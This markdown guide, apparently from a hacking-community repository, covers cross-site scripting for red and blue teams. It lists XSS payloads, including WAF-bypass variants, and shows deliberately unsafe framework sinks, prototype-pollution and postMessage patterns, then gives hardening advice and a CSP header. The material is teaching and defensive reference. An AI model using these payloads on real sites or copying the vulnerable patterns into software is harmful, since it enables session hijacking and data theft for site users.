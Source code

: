 # 🛡️ Complete XSS Series – Red & Blue Team Guide

🚀 Created for **Hack Tools Dark Community**

---

## 📖 Table of Contents

1. [XSS Basics and Exploitation](#1-xss-basics-and-exploitation)
2. [Modern WAF Bypass Techniques](#2-modern-waf-bypass-techniques)
3. [XSS in SPAs (React, Angular, Vue)](#3-xss-in-spas-react-angular-vue)
4. [DOM Clobbering & Prototype Pollution + XSS](#4-dom-clobbering--prototype-pollution--xss)
5. [XSS via postMessage, Shadow DOM, and iframe Abuse](#5-xss-via-postmessage-shadow-dom-and-iframe-abuse)
6. [Trusted Types Bypass & iframe Sandbox Escapes](#6-trusted-types-bypass--iframe-sandbox-escapes)
7. [Full Blue Team Hardening Guide](#7-full-blue-team-hardening-guide)

---

## 1. XSS Basics and Exploitation

Cross-Site Scripting (XSS) allows attackers to execute arbitrary JavaScript in user browsers. It's still among the most exploited vulnerabilities today.

### Common Types of XSS
- **Stored XSS**: Injected script is stored and executed when viewed.
- **Reflected XSS**: Script is reflected off the server (e.g., via URL).
- **DOM-Based XSS**: Triggered entirely client-side.

### Example Payloads
```html
<script>alert('XSS')</script>
<img src=x onerror=alert(1)>
<a href="javascript:alert(1)">Click</a>
```

---

## 2. Modern WAF Bypass Techniques

### Techniques:
- HTML entity encoding
- Hex/Unicode encoding
- Broken tags
- JavaScript URIs
- `data:` URIs with SVG
- Mutation XSS (mXSS)

### Real Bypass Payloads
```html
<svg><script xlink:href=data:,alert(1)></script></svg>
<iframe srcdoc="<script>alert`1`</script>"></iframe>
<video><source onerror="alert(1)">
```

---

## 3. XSS in SPAs (React, Angular, Vue)

### React:
```jsx
<div dangerouslySetInnerHTML={{ __html: userInput }} />
```

### Vue:
```html
<div v-html="userInput"></div>
```

### Angular:
```ts
this.trust = sanitizer.bypassSecurityTrustHtml(userInput);
```

Other vectors: `localStorage`, route injection, rich text editors.

---

## 4. DOM Clobbering & Prototype Pollution → XSS

### DOM Clobbering
```html
<input name="submit" value="alert(1)">
```

### Prototype Pollution
```js
_.merge({}, JSON.parse('{ "__proto__": { "x": "<img src=x onerror=alert(1)>" } }'));
```

Can lead to poisoned logic and HTML injection.

---

## 5. XSS via postMessage, Shadow DOM, and iframe Abuse

### postMessage XSS
```js
window.addEventListener('message', (e) => {
  document.getElementById('output').innerHTML = e.data;
});
```

### Shadow DOM
```js
el.attachShadow({mode: 'open'}).innerHTML = userInput;
```

### iframe abuse
```html
<iframe srcdoc="<script>alert(1)</script>"></iframe>
```

---

## 6. Trusted Types Bypass & iframe Sandbox Escapes

### Trusted Types Bypass
```js
document.body.innerHTML = String(userInput); // Unsafe wrapper
```

Use DOMPurify in TT mode:
```js
DOMPurify.sanitize(input, {RETURN_TRUSTED_TYPE: true});
```

### Sandbox Escape
```html
<iframe src="evil.html" sandbox="allow-scripts allow-same-origin"></iframe>
```

Avoid combining `allow-scripts` and `allow-same-origin`.

---

## 7. Full Blue Team Hardening Guide

### Defenses:
- DOMPurify for sanitization
- Context-aware escaping
- Content-Security-Policy (CSP)
- Trusted Types
- Safe framework use (no v-html, dangerouslySetInnerHTML)
- Prototype key blacklisting (`__proto__`, `constructor`)
- iframe sandboxing
- Secure cookies (`HttpOnly`, `Secure`, `SameSite`)
- CSP reporting & logging

### Sample CSP Header
```http
Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none'; base-uri 'none';
```

---

## 🎯 Conclusion

Modern XSS defense and offense require creativity and precision. Whether you're building secure systems or breaking them as a Red Teamer — mastering the full landscape of XSS is essential.
